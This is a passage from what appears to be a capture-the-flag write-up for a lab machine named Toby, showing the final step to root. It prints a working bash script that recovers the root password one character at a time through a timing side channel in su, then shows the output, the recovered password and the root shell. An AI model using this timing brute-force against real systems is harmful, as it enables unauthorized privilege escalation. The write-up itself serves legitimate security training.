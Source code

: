 The resulting script is:

```

#!/bin/bash

correct=""
for i in {0..9}; do
    while read c; do   
        pass="${correct}${c}"
        echo -en "\r${pass} ";     
        printf "%-10s\n" $pass \
        | time su 2>&1 \
        | grep -Eo '.:..\...elapsed' \
        | grep -v "0:01.${i}" \
        && correct="${pass}" \
        && break;
       done <<<$(python3 -c 'import string; print("\n".join(string.printable[:-5]))')
done

```

It takes about seven minutes to run, but produces a password:

```

jack@toby:/tmp$ time bash brute.sh 
T 0:01.11elapsed
Ti 0:01.21elapsed
Tih 0:01.32elapsed
TihP 0:01.41elapsed
TihPA 0:01.51elapsed
TihPAQ 0:01.61elapsed
TihPAQ4 0:01.71elapsed
TihPAQ4p 0:01.81elapsed
TihPAQ4ps 0:01.92elapsed
TihPAQ4pse 0:01.00elapsed

real    7m17.345s
user    0m6.058s
sys     0m1.430s

```

When it’s running, it looks like:

![brute full](https://0xdfimages.gitlab.io/img/toby-brute-full.gif)

### su

That password works with `su`:

```

jack@toby:/tmp$ su -
Password: 
root@toby:~# 

```

And I can get `root.txt`:

```

root@toby:~# cat root.txt
c640c117************************

```
